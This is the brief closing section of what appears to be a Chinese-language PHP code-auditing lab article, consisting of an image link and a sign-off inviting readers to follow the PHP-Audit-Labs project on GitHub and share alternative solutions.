

## 总结

我们的项目会慢慢完善，如果大家喜欢可以关注 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。大家若是有什么更好的解法，可以在文章底下留言，祝大家玩的愉快！